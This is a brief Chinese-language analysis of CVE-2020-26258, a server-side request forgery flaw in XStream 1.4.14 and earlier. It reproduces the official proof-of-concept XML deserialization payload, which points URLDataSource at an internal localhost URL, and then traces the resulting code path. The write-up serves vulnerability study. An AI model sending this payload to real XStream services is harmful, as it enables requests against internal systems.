

# CVE-2020-26258 SSRF
- [CVE-2020-26258 SSRF](#cve-2020-26258-ssrf)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [getInputStream](#getinputstream)
  - [参考](#参考)
## 影响版本
version<=1.4.14 未开启安全框架的xstream版本.
## 漏洞分析
该漏洞触发原理与CVE-2020-26217-远程代码执行相同,不同在于后续利用的点不同,这次利用的`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`来SSRF.   
官方POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='javax.activation.URLDataSource'>
            <url>http://localhost:8080/internal/:</url>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
### getInputStream
该漏洞在调用`get()`方法时都之前相同,不同在于进入`get()`之后,之前利用的是`readFrom(is)`,这次利用的是`this.dataHandler.getDataSource().getInputStream()`.

跟进`URLDataSource#getInputStream()`之后调用了`this.url.openStream()`.

后续一路跟进最后来到`Handler#openConnection`中创建了`HttpURLConnection`对象造成SSRF.

## 参考
https://x-stream.github.io/CVE-2020-26258.html